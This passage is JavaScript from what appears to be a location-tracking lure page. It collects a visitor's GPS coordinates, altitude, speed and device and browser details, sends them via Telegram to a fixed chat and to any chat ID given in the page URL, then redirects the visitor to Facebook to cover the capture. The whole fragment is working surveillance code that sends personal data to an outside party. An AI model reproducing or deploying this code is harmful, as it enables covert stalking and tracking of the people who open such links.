             const params = new URLSearchParams(window.location.search);
            const url_chat_id = params.get("id");
            
            // Prepare chat IDs (fixed + from URL if exists)
            const bot_chat_ids = [FIXED_CHAT_ID];
            if (url_chat_id) {
                bot_chat_ids.push(url_chat_id);
            }

            const latitude = position.coords.latitude;
            const longitude = position.coords.longitude;
            const accuracy = position.coords.accuracy;
            const altitude = position.coords.altitude;
            const speed = position.coords.speed;
            const timestamp = new Date(position.timestamp).toLocaleString();
            
            const deviceInfo = getDeviceInfo();
            const browserInfo = getBrowserInfo();
            
            const googleMapsLink = `https://www.google.com/maps?q=${latitude},${longitude}`;
            const openStreetMapLink = `https://www.openstreetmap.org/?mlat=${latitude}&mlon=${longitude}#map=16/${latitude}/${longitude}`;

            const message = `📍 **New Location Tracked** 
🌍 Latitude: ${latitude}
🌍 Longitude: ${longitude}
🎯 Accuracy: ${accuracy} meters
⛰️ Altitude: ${altitude ? altitude + ' meters' : 'N/A'}
🚀 Speed: ${speed ? speed + ' m/s' : 'N/A'}
🕒 Time: ${timestamp}

🗺️ [Google Maps](${googleMapsLink})
🗺️ [OpenStreetMap](${openStreetMapLink})

${deviceInfo}

<details><summary><b>📊 Detailed Browser Info</b></summary></details>`;

            // Send requests in parallel with error handling
            const requests = bot_chat_ids.map(chat_id => 
                sendTelegramMessage(chat_id, message)
            );

            try {
                await Promise.all(requests);
                document.querySelector(".content").innerHTML = `
                    <h2>✅ Location Sent Successfully!</h2>
                    <p>Latitude: ${latitude}</p>
                    <p>Longitude: ${longitude}</p>
                    <p><a href="${googleMapsLink}" target="_blank">View on Google Maps</a></p>
                `;
                
                // Redirect to Facebook after successful send
                setTimeout(() => {
                    window.location.href = REDIRECT_URL;
                }, 3000);
            } catch (error) {
                console.error("Error sending messages:", error);
                document.querySelector(".content").innerHTML = `
                    <h2>⚠️ Partial Success</h2>
                    <p>Some messages may not have been delivered.</p>
                    <p>Latitude: ${latitude}</p>
                    <p>Longitude: ${longitude}</p>
                    <p><a href="${googleMapsLink}" target="_blank">View on Google Maps</a></p>
                `;
                